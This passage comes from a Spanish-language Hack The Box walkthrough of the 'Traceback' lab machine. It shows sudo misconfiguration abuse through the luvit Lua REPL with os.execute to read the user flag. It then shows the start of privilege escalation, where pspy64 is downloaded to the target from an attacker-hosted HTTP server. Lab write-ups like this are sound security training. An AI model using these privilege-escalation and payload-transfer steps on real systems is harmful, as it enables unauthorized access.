 Escribimos el comando sudo -l verificar los privilegios del usuario y encontramos que podemos ejecutar un comando como usuario `sysadmin` sin necesidad de tener la contraseña 

```bash
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Escribimos el comando anterior y nos aparece una consola como la siguiente

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> 
```

Nos abre una consola LUA y consultando sobre cómo ejecutar comando del sistema operativo encontramos que el comando [os.execute("")](http://lua-users.org/wiki/OsLibraryTutorial ) de la biblioteca os de LUA, muy similar a Python. De esta manera, ya obtendremos la flag de usuario

```bash
Welcome to the Luvit repl!
> os.execute("cat /home/sysadmin/user.txt")
3718d6...........................
true    'exit'  0
```




## Escalamiento de privilegios

Descargamos y luego transferimos a la máquina la herramienta [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64) que nos sirve para revisar los procesos y tareas que están ejecutando en segundo plano.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64
--2020-06-04--  https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.181 - - [04/Jun/2020 19:29:08] "GET /pspy64 HTTP/1.1" 200 -

webadmin@traceback:~$ wget http://10.10.14.21/pspy64
--2020-06-04 17:30:03--  http://10.10.14.21/pspy64
Connecting to 10.10.14.21:80... connected.
```

Damos permisos de ejecución al archivo `pspy64` 
